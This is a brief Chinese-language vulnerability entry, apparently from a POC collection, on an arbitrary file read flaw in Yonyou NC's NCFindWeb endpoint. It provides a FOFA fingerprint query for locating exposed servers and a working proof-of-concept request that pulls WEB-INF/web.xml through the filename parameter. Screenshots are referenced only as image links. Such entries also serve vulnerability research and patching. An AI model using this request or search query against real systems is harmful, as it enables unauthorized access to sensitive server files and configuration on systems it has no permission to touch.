 # 用友 NC NCFindWeb 任意文件读取漏洞

## 漏洞描述

用友NC存在任意文件读取漏洞，攻击者通过漏洞可读取服务器敏感文件

## 漏洞影响

```
用友NC
```

## FOFA

```
icon_hash="1085941792"
```

## 漏洞复现

登陆页面

![img](./images/1628351304159-f00b4a4f-a104-40f4-a8bf-1ea00cf72c98.png)

验证POC **/NCFindWeb?service=IPreAlertConfigService&filename=WEB-INF/web.xml**

![img](./images/1628351371286-e2898425-5e54-438a-b5eb-4f20eed3636b.png)


